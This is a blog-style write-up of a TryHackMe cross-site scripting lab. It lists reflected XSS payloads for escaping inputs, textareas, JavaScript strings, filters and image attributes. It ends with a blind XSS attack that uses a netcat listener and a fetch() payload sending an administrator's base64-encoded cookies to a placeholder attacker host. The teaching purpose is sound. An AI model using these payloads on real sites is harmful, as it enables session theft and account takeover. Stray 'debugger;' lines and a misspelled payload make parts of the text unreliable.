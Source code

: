 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```

#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: XSS (Cross-Site Scripting) 

### Perfecting your Payload 

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.40.37.png)


We can put in 
debugger;
`<script>ale4rt('THM');</script>`
in the form: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 

debugger;
">script>alert('THM');</script>


The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.23.png)

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 

debugger;
</textarea><script>alert('THM');</script>`


The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

---

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 
debugger;
`';alert('THM');//`

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping string filters

Level 5 looks similar to level 2 on the surface. However, executing debugger; `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 

debugger;
<sscriptcript>alert('THM');</sscriptcript>


The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.13.53.png)
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.14.10.png)


---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---

### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.47.png)

Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.58.21.png)

---
